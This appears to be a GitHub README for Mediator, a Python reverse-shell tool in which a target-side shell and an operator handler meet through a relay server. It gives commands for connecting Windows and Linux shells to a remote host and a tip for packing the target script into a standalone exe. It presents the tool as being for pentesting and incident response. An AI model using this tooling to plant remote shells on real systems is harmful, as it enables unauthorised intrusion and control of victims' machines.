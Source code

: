 <p align="center" float:"right">
    <img src="resources/mediator.png" alt="mediator logo" width="800"/>
</p>

Mediator is an end-to-end encrypted reverse shell in which the operator and the shell connect to a "mediator" server that bridges the connections. This removes the need for the operator/handler to set up port forwarding in order to listen for the connection. It also allows for easy integration into other pentesting and incident response tools.

## Architecture:

Inspired by end-to-end encrypted chat applications, this reverse shell takes a unique approach to the client/server model of a reverse shell. This reverse shell uses:

1. A client reverse shell
2. A client handler/operator
3. A server that bridges the two connections

Reverse shells and handlers connect to the mediator server with a connection key. The server listens on port 80 for handler connections and port 443 for reverse shell connections. When clients connect to the mediator, the server queues the clients according to their respective type and connection key. When both a reverse shell and an operator connect to the server with the same key, the server will bridge the two connections. From there, a key exchange is done between the two clients, and all communication between the reverse shell and operator is encrypted end-to-end. This ensures the server cannot snoop on the streams it is piping.

## Instructions:

### Server

The client scripts can be run on Windows or Linux, but you'll need to stand up the server ([mediator.py](mediator.py)) on a Linux host. You can either run the server script with

```bash
$ python3 mediator.py
```

or you can build a Docker image with the provided [Dockerfile](Dockerfile) and run it in a container (make sure to publish ports 80 and 443).

### Clients

The handler and the reverse shell can be used within other Python scripts or directly via the command line. In both cases, the clients can accept arguments for the server address and connection key. Usage of those arguments is described below.

**Mediator server address**

For *Python script* usage, the address of the mediator host is required upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com")
operator.run()
```

*WindowsRShell class*
```python
from windowsTarget import WindowsRShell

shell = WindowsRShell(mediatorHost="example.com")
shell.run()
```

If executing a client script *directly from a shell*, you can either hard code the address at the bottom of the script, or the server address can be specified as an argument with the `-s` or `--server` flag:

*handler.py*
```bash
$ python3 handler.py -s example.com
```

*windowsTarget.py*
```powershell
> python windowsTarget.py -s example.com
```

**Connection key**

When two handlers or two reverse shells connect to the mediator server with the same connection key, only the first connection is queued awaiting its match. Until the queued connection either times out (30 seconds) or matches with a counterpart connection, all other clients of the same type trying to connect with the same connection key will be dropped.

It is important to make sure each handler is using a unique connection key to avoid a race condition resulting in the wrong shell being given to an operator. 

Only keys with the prefix "#!ConnectionKey_" will be accepted by the server. The default connection key is "#!ConnectionKey\_CHANGE\_ME!!!".

To change the connection key for *Python script* usage, the connection key can optionally be supplied upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com", connectionKey="#!ConnectionKey_secret_key")
operator.run()
```

*LinuxRShell class*
```python
from linuxTarget import LinuxRShell

shell = LinuxRShell(mediatorHost="example.com", connectionKey="#!ConnectionKey_secret_key")
shell.run()
```

If executing a client script *directly from a shell*, you can either hard code the connection key at the bottom of the script, or the connection key can be specified as an argument with the `-c` or `--connection-key` flag:

*handler.py*
```bash
$ python3 handler.py -s example.com -c '#!ConnectionKey_secret_key'
```

*windowsTarget.py*
```powershell
> python windowsTarget.py -s example.com -c '#!ConnectionKey_secret_key'
```


## Tips and Reminders:

- REMINDER: handlers and reverse shells will not be bridged together unless they connect to the mediator server using the same connection key within 15 seconds of each other.
- TIP: You can easily create an exe for windowsTarget.py with pyinstaller using the `--onefile` flag

